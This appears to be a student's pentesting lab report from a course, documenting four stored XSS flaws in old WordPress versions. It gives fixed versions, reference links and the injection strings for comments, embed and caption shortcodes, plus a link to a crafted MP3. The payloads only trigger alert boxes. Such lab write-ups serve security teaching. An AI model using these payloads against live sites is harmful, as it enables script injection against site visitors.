 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2.0
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: ![](HackOne.gif)
  - [X] Steps to recreate: Comment on a post with the following -  
  ```
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px <insert greater than 63kb of any data>'></a>
  ```
  - [X] Affected source code: https://cedricvb.be/post/wordpress-stored-xss-vulnerability-4-1-2/
    - [Link 1](https://klikki.fi/adv/wordpress2.html)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2.0
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough: ![](HackTwo.gif)
  - [X] Steps to recreate: Create or update a post with the following code in its body-
  ```
  [embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
  ```
  - [X] Affected source code: https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    - [Link 1](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)
1. (Required) 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [X] GIF Walkthrough: ![](HackThree.gif)
  - [X] Steps to recreate: Create or update a post with the following code in its body
  ```
  TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
  ```
  - [X] Affected source code: https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    - [Link 1](https://wpvulndb.com/vulnerabilities/8186)
1. (Optional) WordPress 4.5.3 Audio Playlist Cross Site Scripting
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.5.3
    - Fixed in version: 4.7.3
  - [X] GIF Walkthrough: ![](HackFour.gif)
  - [X] Steps to recreate: 
    Use the following mp3 https://securify.nl/advisory/SFY20160742/xss.mp3
    1) upload MP3 file to the Media Library (as Editor or Administrator).
    2) Insert an Audio Playlist in a Post containing this MP3 (Create Audio Playlist).
  - [X] Affected source code: https://sumofpwn.nl/advisory/2016/wordpress_audio_playlist_functionality_is_affected_by_cross_site_scripting.html
    - [Link 1](https://cxsecurity.com/issue/WLB-2017030066)
